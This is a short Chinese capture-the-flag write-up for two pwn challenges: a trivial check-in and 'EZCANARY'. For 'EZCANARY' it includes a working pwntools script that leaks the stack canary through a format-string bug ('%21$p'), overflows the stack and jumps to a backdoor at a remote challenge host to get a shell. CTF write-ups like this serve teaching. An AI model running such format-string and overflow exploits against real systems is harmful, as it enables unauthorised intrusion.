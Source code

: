 # PWN

## CheckIn

属于pwn的签到，放入IDA后分析发现逻辑为输入一个shell后即可拿到一个shell，可谓打开就送。

## EZCANARY

经典的格式化字符串与栈溢出与canary，通过格式化字符串泄露canary，构造payload将返回地址覆盖为后门即可拿到shell。

### EXP

```python
from pwn import *
#io = process("./pwn")
io = remote("81.69.243.226",60413)
#gdb.attach(io)
bk = 0x401243
print(hex(bk))
io.sendlineafter(b"gift:",b"%21$p")
r = io.recvuntil(b"00")
canary = int(r,16)
print("canary:",hex(canary))
payload = b"a" * 104 +p64(canary)+b"b"*8 +p64(bk)
io.sendline(payload)
io.interactive()
```